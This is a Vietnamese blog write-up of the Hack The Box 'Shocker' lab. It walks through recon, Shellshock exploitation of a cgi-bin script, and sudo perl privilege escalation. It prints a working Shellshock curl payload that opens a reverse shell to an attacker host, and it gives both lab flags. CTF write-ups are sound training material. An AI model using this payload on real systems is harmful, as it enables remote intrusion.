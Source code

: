 ```yaml
---
title: Shocker
Date: 2025-01-07
category: Hack The Box
tags:
  - HTB
  - Shocker
---
```

# Mô tả
Ngẫu hứng đêm phia ^^. Vì nay nhức chân không thể chạy bộ theo kế hoạch, chán quá không biết làm gì thôi thì làm một bài easy cho đỡ chán.
Lướt mô tả của các bài easy một hồi thì mình quyết định chọn bài này, vì nó làm mình nhớ đến cái bug huyền thoại thời nào.
Đây là mô tả của bài lab để bạn biết cụ thể hơn mình đang nói điều gì :)))
![Screenshot](/assets/htb/Pasted image 20250107002756.png)
# Attack
## Recon
Như thường lệ, vẫn là `nmap`
![Screenshot](/assets/htb/Pasted image 20250107003411.png)
Vẫn là port 80 quen thuộc. Truy cập web thôi.
![Screenshot](/assets/htb/Pasted image 20250107005044.png)
Giao diện web cũng không có gì vui. Như một thói quen thời sinh viên, dirsearch thử xem có thư mục hay file nào hay ho không.
![Screenshot](/assets/htb/Pasted image 20250107003800.png)
Kết quả từ gobuster cũng vọn vẹn nhiêu đây. À há có `cgi-bin` kìa. Thử dirsearch phát nữa xem có gì hot.
![Screenshot](/assets/htb/Pasted image 20250107005222.png)
Ây da, lòi ra một file `.sh`.
![Screenshot](/assets/htb/Pasted image 20250107005233.png)
Truy cập vào thì chỉ có bấy nhiêu thông tin => Hơi thất vọng.
`Just an uptime test script` -> đây có vẻ như là một lệnh nào đó của linux. Đúng rồi đó là lệnh `uptime`.
## Exploit Shellshock
Mà ủa "làm vậy để làm chi ?", thật sự tới đây mình chưa hiểu được vấn đề ở đây là gì ? Thôi thì tạm để nó qua một bên vậy.
Nhớ lại đoạn mô tả của bài lab này có nhắc đến `Shellshock exploit`. Đây cũng chính là lỗ hổng trong truyền thuyết mà mình đã nhắc ở đầu bài viết. Cứ thử exploit thử xem sao đã.
![Screenshot](/assets/htb/Pasted image 20250107013223.png)
Ngol lụm luôn.
## Flag 1
![Screenshot](/assets/htb/Pasted image 20250107013519.png)
Flag 1: `94f6590c169a65d3375d01d7b2786046`
## Privileges
Vẫn như thói quen hồi đại học. Cứ hễ nghĩ đến leo quyền là nhanh tay gõ lệnh `sudo -l`.
![Screenshot](/assets/htb/Pasted image 20250107014136.png)
May thay đây cũng là một lab dạng easy nên có ngay kết quả chưa một binary có thể dùng quyền sudo mà không cần password.
Chuyện leo quyền bây giờ trở nên đơn giản hơn rồi. Việc còn lại là viết một payload sử dụng perl call tới /bin/bash như người dùng root là xong.
Do là gom chung vào 1 payload khá là khó chẹo nên mình quyết định reverse shell vào user `shelly` rồi sau đó leo quyền cho dễ.
![Screenshot](/assets/htb/Pasted image 20250107015655.png)
Payload: `curl -A '() { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.16.14/2804 0>&1' http://10.129.206.242/cgi-bin/user.sh`.
## Flag 2
![Screenshot](/assets/htb/Pasted image 20250107020250.png)
Flag 2: `bb1604537f6b21a35dab9402628b959a`.
